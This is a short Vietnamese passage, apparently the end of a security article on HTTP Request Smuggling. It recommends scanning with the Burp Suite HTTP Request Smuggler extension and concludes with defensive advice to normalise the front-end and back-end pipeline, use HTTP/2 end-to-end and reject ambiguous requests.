PortSwigger cung cấp extension **HTTP Request Smuggler** cho Burp Suite, có thể tự động scan và phát hiện endpoint dễ bị tấn công. Đây là bước kiểm tra nên thực hiện thường xuyên trong mỗi pentest hoặc security audit.

> **Kết luận**: HTTP Request Smuggling là hệ quả của việc hai thành phần trong cùng một pipeline không xử lý request theo cùng một ngôn ngữ. Giải pháp không phải là vá từng lỗ hổng nhỏ, mà là **chuẩn hóa toàn bộ pipeline** — HTTP/2 end-to-end, reject request mơ hồ, và không bao giờ để FE và BE "hiểu sai nhau".
>